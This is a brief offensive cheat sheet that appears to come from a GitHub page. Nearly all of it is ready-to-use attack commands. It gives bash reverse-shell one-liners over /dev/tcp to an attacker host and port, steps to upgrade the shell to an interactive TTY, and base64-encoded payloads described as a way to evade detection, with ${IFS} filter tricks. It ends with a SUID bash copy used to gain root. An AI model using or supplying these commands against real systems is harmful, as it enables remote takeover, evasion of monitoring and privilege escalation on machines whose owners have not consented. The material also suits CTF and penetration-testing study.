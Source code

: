 # Reverse Shell
A reverse shell is a type of shell in which a target system connects back to an attacker's system.
Here an example of bash reverse shell

```console
bash -i >& /dev/tcp/10.10.14.1/9001 0>&1

bash -c "bash -i >& /dev/tcp/10.10.14.1/9001 0>&1"
```

## Fully Interactive Reverse Shell
The Reverse Shell obtained is tipically simple and not interactive. The following method upgrades the current shell:

```console
python -c 'import pty; pty.spawn("/bin/bash")'

# Press Ctrl+Z to suspend, then check for terminal rows & cols size
stty size

stty raw -echo;fg;
export TERM=xterm-256color
stty rows <rows> columns <cols>

# Use reset when needed to reset terminal state in case of visualization issues
reset
```

## Base64 Reverse Shell 
Base64 encoding is often employed when creating reverse shells to evade detection and/or avoiding special character interpretation

```console
echo -n 'bash -i >& /dev/tcp/10.10.14.1/9001 0>&1' | base64 -w0
> YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xLzkwMDEgMD4mMQ==

# Getting rid of any special characters adding white spaces
echo -n 'bash  -i >& /dev/tcp/10.10.14.1/9001  0>&1' | base64 -w0
> YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMS85MDAxICAwPiYx

echo BASE64_PAYLOAD | base64 -d | bash
```

N.B. Remember to use `;` separators of `${IFS}` instead of spaces


## Privilege Escalation

```console
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash

./rootbash -p
```